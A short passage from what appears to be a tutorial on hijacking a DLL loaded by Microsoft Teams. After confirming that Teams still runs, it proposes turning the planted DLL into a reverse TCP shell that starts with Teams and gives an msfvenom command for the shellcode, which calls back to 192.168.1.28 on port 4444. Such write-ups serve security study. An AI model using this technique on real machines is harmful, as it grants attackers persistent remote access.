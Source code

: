 After we close pop-up Microsoft Teams work correctly, not crashed:

![not crashed ms teams](/assets/images/13/2021-10-12_15-13.png){:class="img-responsive"}    

That's all!

### What about reverse shell?

Now that everything is working as expected, let's add some more advanced functionality to the DLL, which in turn will give us a reverse TCP shell whenever MS Teams is started.     

For simplicity we can just use msfvenom to generate our reverse shell shellcode:
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.28 LPORT=4444 EXITFUNC=thread -f c
```
